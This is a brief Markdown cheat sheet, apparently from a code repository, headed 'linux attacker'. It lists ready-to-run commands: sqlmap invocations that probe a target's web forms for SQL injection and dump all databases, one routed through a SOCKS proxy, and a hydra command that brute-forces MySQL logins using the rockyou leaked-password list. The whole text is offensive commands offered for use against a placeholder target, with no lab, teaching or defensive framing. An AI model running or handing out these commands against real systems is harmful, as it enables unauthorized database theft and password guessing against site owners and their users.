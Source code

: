 # linux attacker

## check and dump information from sql injection

```bash
sqlmap --batch -a --forms -u "http://$rhost" --output-dir="."
sqlmap --batch -a --dump-all --forms -u "http://$rhost" --output-dir="."
```

## sqlmap use specific parameter and proxy

```bash
sqlmap -u http://rhost?id= --proxy socks5://127.0.0.1:1080
```


## bruteforce sql

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt $rhost mysql
```
